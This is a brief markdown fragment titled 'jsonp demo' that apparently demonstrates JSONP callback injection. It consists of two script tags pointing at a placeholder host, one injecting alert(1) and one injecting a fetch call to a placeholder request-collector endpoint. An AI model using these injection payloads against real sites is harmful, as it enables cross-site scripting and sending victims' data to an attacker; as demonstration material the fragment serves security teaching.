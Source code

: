 ### jsonp demo
basic 
<script src="http://HOSTNAME:PORT?jsonp=alert(1); //"></script>

&nbsp;
 
<script src="http://HOSTNAME:PORT?jsonp=fetch('REQUESTBIN'); //"></script>
